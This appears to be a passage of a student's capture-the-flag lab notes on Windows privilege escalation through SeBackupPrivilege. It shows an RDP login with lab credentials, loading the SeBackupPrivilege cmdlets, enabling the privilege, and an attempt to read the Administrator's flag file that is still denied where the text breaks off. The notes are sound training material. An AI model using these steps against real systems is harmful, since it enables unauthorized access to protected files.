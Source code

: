 ```
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           356962042 Bytes/sec.
   Speed :           20425.531 MegaBytes/min.
   Ended : Thursday, May 6, 2021 1:11:47 PM
```

--> This eliminates the need for any external tools.

## LAB

xfreerdp /v:10.129.175.116 /u:svc_backup /p:HTB_@cademy_stdnt!

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

PS C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

Get-SeBackupPrivilege
SeBackupPrivilege is disabled

PS C:\Tools> Set-SeBackupPrivilege
PS C:\Tools> Get-SeBackupPrivilege
SeBackupPrivilege is enabled

PS C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

PS C:\Tools> cat 'c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt'
cat : Access to the path 'C:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt' is denied.
At line:1 char:1
+ cat 'c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Admini...vilege\flag.txt:String) [Get-Content], Unauthorized
   AccessException
    + FullyQualifiedErro
